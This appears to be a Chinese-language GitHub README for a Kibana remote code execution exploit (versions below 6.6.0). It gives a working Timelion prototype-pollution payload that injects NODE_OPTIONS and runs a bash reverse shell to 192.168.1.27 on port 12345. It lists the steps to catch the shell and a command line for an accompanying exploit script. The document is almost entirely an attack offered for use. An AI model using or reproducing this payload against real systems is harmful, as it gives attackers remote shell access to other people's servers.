 # kibana-RCE <6.6.0

* 监听端口

![](./kibana1.jpg "监听端口")

POC： 
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.27/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
* 执行POC

![](./kibana_2.jpg "点击RUN执行")

* 成功反弹shell

![](./kibana3.png "成功反弹shell")


## 脚本使用
python kibana6.6.0RCE.py http://ip:port RHOST RPORT
![](./rce.jpg)


## 参考链接
https://github.com/jas502n/kibana-RCE
